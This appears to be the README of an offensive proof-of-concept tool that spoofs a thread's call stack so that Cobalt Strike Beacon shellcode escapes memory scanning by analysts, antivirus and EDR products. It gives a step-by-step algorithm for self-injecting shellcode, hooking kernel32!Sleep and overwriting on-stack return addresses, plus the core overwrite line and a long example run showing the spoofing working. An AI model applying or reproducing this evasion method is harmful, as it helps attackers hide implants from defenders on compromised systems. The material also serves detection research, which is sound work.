

# Thread Stack Spoofing PoC

A PoC implementation for an advanced in-memory evasion technique that spoofs Thread Call Stack. This technique allows to bypass thread-based memory examination rules and better hide shellcodes while in-process memory.

## Intro

This is an example implementation for _Thread Stack Spoofing_ technique aiming to evade Malware Analysts, AVs and EDRs looking for references to shellcode's frames in an examined thread's call stack.
The idea is to walk back thread's call stack and overwrite return addresses in subsequent function frames thus masquerading allocations containing malware's code.

An implementation may differ, however the idea is roughly similar to what [MDSec's Nighthawk C2](https://www.mdsec.co.uk/nighthawk/) offers for its agents.
Especially demonstrated in this video:

[Nighthawk - Thread Stack Spoofing](https://vimeo.com/581861665)


## How it works?

This program performs self-injection shellcode (roughly via classic `VirtualAlloc` + `memcpy` + `CreateThread`). 
Then when shellcode runs (this implementation specifically targets Cobalt Strike Beacon implants) a Windows function will be hooked intercepting moment when Beacon falls asleep `kernel32!Sleep`. 
Whenever hooked `MySleep` function gets invoked, it will spoof its own call stack leading to this `MySleep` function and begin sleeping. 
Having awaited for expected amount of time, the Thread's call stack will get restored assuring stable return and shellcode's execution resumption.

The rough algorithm is following:

1. Read shellcode's contents from file.
2. Acquire all the necessary function pointers from `dbghelp.dll`, call `SymInitialize`
3. Hook `kernel32!Sleep` pointing back to our callback.
4. Inject and launch shellcode via `VirtualAlloc` + `memcpy` + `CreateThread`
5. As soon as Beacon attempts to sleep, our `MySleep` callback gets invoked.
6. Stack Spoofing begins. 
7. Firstly we walk call stack of our current thread, utilising `ntdll!RtlCaptureContext` and `dbghelp!StackWalk64` 
8. We save all of the stack frames that match our `seems-to-be-beacon-frame` criterias (such as return address points back to a memory being `MEM_PRIVATE` or `Type = 0`, or memory's protection flags are not `R/RX/RWX`)
9. We terate over collected frames (gathered function frame pointers `RBP/EBP` - in `frame.frameAddr`) and overwrite _on-stack_ return addresses with a fake `::CreateFileW` address.
10. Finally a call to `::SleepEx` is made to let the Beacon's sleep while waiting for further communication.
11. After Sleep is finished, we restore previously saved original function return addresses and execution is resumed. 

Function return addresses are scattered all around the thread's stack memory area, pointed to by `RBP/EBP` register. In order to find them on the stack, we need to firstly collect frame pointers, then dereference them for overwriting:

```
	*(PULONG_PTR)(frameAddr + sizeof(void*)) = Fake_Return_Address;
```

This precise logic is provided by `walkCallStack` and `spoofCallStack` functions in `main.cpp`.


## Demo

This is how a call stack may look like when it is **NOT** spoofed:



This in turn, when thread stack spoofing is enabled:


## Example run

Example run that spoofs beacon's thread call stack:

```
C:\> ThreadStackSpoofer.exe beacon64.bin 1
[.] Reading shellcode bytes...
[.] Initializing stack spoofer...
[+] Stack spoofing initialized.
[.] Hooking kernel32!Sleep...
[.] Injecting shellcode...
WalkCallStack: Stack Trace:
        2.      calledFrom: 0x7ff7abc92de4 - stack: 0x50174ff7d0 - frame: 0x50174ff8e0 - ret: 0x1f255dabd51 - skip? 0
        3.      calledFrom: 0x1f255dabd51 - stack: 0x50174ff8f0 - frame: 0x50174ff8e8 - ret: 0x1388 - skip? 0
        4.      calledFrom: 0x    1388 - stack: 0x50174ff8f8 - frame: 0x50174ff8f0 - ret: 0x1f25683ae80 - skip? 0
        5.      calledFrom: 0x1f25683ae80 - stack: 0x50174ff900 - frame: 0x50174ff8f8 - ret: 0x1b000100000004 - skip? 0
        6.      calledFrom: 0x1b000100000004 - stack: 0x50174ff908 - frame: 0x50174ff900 - ret: 0x8003600140000 - skip? 0
        7.      calledFrom: 0x8003600140000 - stack: 0x50174ff910 - frame: 0x50174ff908 - ret: 0x1f255f76040 - skip? 0
        8.      calledFrom: 0x1f255f76040 - stack: 0x50174ff918 - frame: 0x50174ff910 - ret: 0x1f255d8cd9f - skip? 0
        9.      calledFrom: 0x1f255d8cd9f - stack: 0x50174ff920 - frame: 0x50174ff918 - ret: 0x1f255d8cdd0 - skip? 0
WalkCallStack: Stack Trace finished.
                        Spoofed: 0x1f255dabd51 -> 0x7ffeb7f74b60
                        Spoofed: 0x00001388 -> 0x7ffeb7f74b60
                        Spoofed: 0x1f25683ae80 -> 0x7ffeb7f74b60
                        Spoofed: 0x1b000100000004 -> 0x7ffeb7f74b60
                        Spoofed: 0x8003600140000 -> 0x7ffeb7f74b60
                        Spoofed: 0x1f255f76040 -> 0x7ffeb7f74b60
                        Spoofed: 0x1f255d8cd9f -> 0x7ffeb7f74b60
                        Spoofed: 0x1f255d8cdd0 -> 0x7ffeb7f74b60
MySleep(5000)
[+] Shellcode is now running.
WalkCallStack: Stack Trace:
        2.      calledFrom: 0x7ff7abc92e14 - stack: 0x50174ff7d0 - frame: 0x50174ff8e0 - ret: 0x7ffeb7f74b60 - skip? 1
        3.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff8f0 - frame: 0x50174ff8e8 - ret: 0x7ffeb7f74b60 - skip? 1
        4.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff8f8 - frame: 0x50174ff8f0 - ret: 0x7ffeb7f74b60 - skip? 1
        5.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff900 - frame: 0x50174ff8f8 - ret: 0x7ffeb7f74b60 - skip? 1
        6.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff908 - frame: 0x50174ff900 - ret: 0x7ffeb7f74b60 - skip? 1
        7.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff910 - frame: 0x50174ff908 - ret: 0x7ffeb7f74b60 - skip? 1
        8.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff918 - frame: 0x50174ff910 - ret: 0x7ffeb7f74b60 - skip? 1
        9.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff920 - frame: 0x50174ff918 - ret: 0x7ffeb7f74b60 - skip? 1
WalkCallStack: Stack Trace finished.
                        Restored: 0x7ffeb7f74b60 -> 0x1f255dabd51
                        Restored: 0x7ffeb7f74b60 -> 0x1388
                        Restored: 0x7ffeb7f74b60 -> 0x1f25683ae80
                        Restored: 0x7ffeb7f74b60 -> 0x1b000100000004
                        Restored: 0x7ffeb7f74b60 -> 0x8003600140000
                        Restored: 0x7ffeb7f74b60 -> 0x1f255f76040
                        Restored: 0x7ffeb7f74b60 -> 0x1f255d8cd9f
                        Restored: 0x7ffeb7f74b60 -> 0x1f255d8cdd0
```


## Author

```
Mariusz Banach / mgeeky, 
<mb [at] binary-offensive.com>, '21
```
